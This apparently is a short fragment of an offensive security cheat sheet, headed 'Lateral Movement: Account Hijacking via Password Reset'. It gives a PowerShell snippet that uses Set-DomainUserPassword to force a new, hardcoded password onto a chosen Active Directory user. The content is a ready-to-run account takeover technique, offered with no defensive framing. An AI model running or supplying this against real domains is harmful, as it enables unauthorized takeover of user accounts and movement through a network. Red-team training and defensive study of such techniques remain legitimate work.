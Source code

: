 ## Lateral Movement
Account Hijacking via Password Reset
```
$SecPass = ConvertTo-SecureString "P@ssword123!" -AsPlainText -Force
Set-DomainUserPassword -Identity USERNAME -AccountPassword $SecPass
```